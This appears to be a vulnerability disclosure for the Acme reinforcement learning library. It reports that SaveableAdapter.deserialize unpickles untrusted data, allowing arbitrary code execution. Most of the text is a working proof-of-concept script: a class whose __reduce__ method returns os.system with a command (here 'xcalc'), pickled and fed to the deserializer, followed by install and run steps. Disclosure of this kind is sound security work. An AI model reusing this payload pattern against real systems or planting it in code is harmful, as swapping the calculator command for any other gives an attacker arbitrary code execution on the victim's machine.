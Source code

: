 # DescriptionAcme is a library of reinforcement learning (RL) agents and agent building blocks. Acme strives to expose simple, efficient, and readable agents, that serve both as reference implementations of popular algorithms and as strong baselines, while still providing enough flexibility to do novel research. The design of Acme also attempts to provide multiple points of entry to the RL problem at differing levels of complexity.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```python
import os
import pickle
#os.system('pip3 install dm-acme')
#os.system('pip3 install dm-sonnet')
from acme.tf import savers
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#Exploiting
pickled = pickle.dumps(ArbitraryCode())
savers.SaveableAdapter.deserialize('hehe',pickled)
```
* `pip3 install dm-acme`
* `python3 exploit.py`
